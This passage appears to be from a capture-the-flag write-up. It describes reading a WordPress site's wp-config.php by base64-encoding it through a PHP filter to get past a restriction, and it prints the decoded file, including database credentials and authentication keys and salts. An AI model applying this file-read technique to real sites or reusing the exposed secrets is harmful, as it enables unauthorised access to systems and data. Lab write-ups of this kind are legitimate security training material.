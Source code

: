 the ssl certificate in nmap got `dwight email` as `dwight@office.csl` it may be valid for wordpress...now we need his password

Anyway we try to read `/var/www/html/wordpress/wp-config.php` but it doesnt work

It usually means there is a `php filter` so we bypass it by base64-encoding the result

```
Then we decode it

<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'password' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'K?*8s`Xfnkt9?74>//s#el MgR,W)SU=GI{T1Lgk2|LvxpwCNB)xh[ Y2R}DKex*' );
define( 'SECURE_AUTH_KEY',  'qZEh{g*6 wQ=pPyrviUBo,jolsX }CS=}Al6aZ!)jNUrrtS`Pu,GWVmN1B/T81k)' );
define( 'LOGGED_IN_KEY',    'ycKjK|*?NmdO>-=i=f[|)3{%`NbgJ0mPg,$}AN<20c`w/uN9 Cl%x~-t7%79A}|R' );
define( 'NONCE_KEY',        's,S|QP}:kVxnCojN2/$t>+yIZg@h-*.)P)%>Z!4V|gw|^]cGb[c9P1)CtZlda4/$' );
define( 'AUTH_SALT',        'N3XWgQ0nVzDJIYGF8aMAQC|-_/tyVnbu)<Vg|zp?`:E`&H|;,BD*=(,rwACgLQto' );
```